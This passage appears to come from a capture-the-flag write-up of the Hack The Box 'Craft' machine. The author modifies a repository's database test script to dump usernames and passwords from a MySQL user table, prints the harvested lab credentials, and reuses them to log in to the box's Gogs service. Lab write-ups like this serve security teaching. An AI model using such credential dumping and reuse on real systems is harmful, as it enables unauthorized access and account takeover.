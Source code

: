 Nice we got the credentials for a `mysql` database service running on the box. According to the model schema found at `https://gogs.craft.htb/Craft/craft-api/src/master/craft_api/database/models.py`, there is a `User` table containing usernames and passwords.

We can modify this database testing script at `https://gogs.craft.htb/Craft/craft-api/src/master/dbtest.py` to dump out the table.

{% highlight python %}
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `username`, `password` FROM `user`"
        cursor.execute(sql)
        result = cursor.fetchall()
        for creds in result:
            print(creds)

finally:
    connection.close()
{% endhighlight %}

Running the script gave us more credentials!

{% highlight bash %}
python dbtest_new.py
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
{% endhighlight %}

Lets try logging in to `https://gogs.craft.htb` using these credentials.

Only `dinesh`'s and `gilfoyle`'s credentials worked. However, in `gilfoyle`'s homepage I noticed another repository but was private.
